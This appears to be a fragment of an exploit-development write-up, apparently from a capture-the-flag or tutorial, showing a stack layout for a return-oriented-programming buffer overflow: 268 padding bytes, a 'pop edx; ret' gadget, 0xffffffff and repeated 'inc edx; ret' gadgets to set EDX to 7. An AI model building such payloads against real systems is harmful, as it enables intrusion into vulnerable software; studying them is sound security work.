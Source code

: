 |     STACK      ||
|----------------|-------------------------------|
|    A * 268     | => filling the buffer until rbp
| 0xF7DB04FC     | => `pop edx; ret` gadget will be placed on top of stack
| 0xffffffff     | => 0xffffffff will be placed on top of stack to be used by `pop edx`
|0xF7E157F8      | => `inc edx; ret` gadget, when it will be exec, EDX will contain 0 (ffffffff + 1 = 0)
|0xF7E157F8      | => goal is to keep incrementing until EDX contains 0x7
|0xF7E157F8      |
|0xF7E157F8      |
|0xF7E157F8      |
|0xF7E157F8      |
|0xF7E157F8      |
|0xF7E157F8      |
